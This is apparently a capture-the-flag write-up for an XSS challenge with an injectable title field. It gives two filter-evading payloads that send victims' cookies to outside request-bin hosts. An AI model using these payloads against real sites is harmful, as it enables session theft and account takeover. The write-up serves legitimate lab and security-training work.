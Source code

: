 # xss_1 - Injectable Title (no `script` or `document`, case insensitive)
- Create new trash and using `alert(1)` figure out what is injectable.
- Identify that the title field can be injected, so first create a request bin at https://requestbin.fullcontact.com/
- Construct payload avoiding filtered words to hit your request bin, `<img src=``[x](http://localhost:9000/page/x)` `onerror="new Image().src='http://v.mewy.pw:9447/18kxbln1/?qwer='+window['doc'+'ument'].cookie;">`
- Alternate payload below,`<sscriptcript>ddocumentocument.location="http://requestbin.fullcontact.com/1mwy90v1?c="+ddocumentocument.cookie;</sscriptcript>`
- Submit this as the title and profit!
![](https://d2mxuefqeaa7sj.cloudfront.net/s_D1CF04A7F2975FBE28B89C00E052CDE16A28AD0D6622A39C029738E493BE6857_1528361061472_Screenshot+2018-06-07+01.29.24.png)

![](https://d2mxuefqeaa7sj.cloudfront.net/s_D1CF04A7F2975FBE28B89C00E052CDE16A28AD0D6622A39C029738E493BE6857_1528361073465_Screenshot+2018-06-07+01.41.28.png)
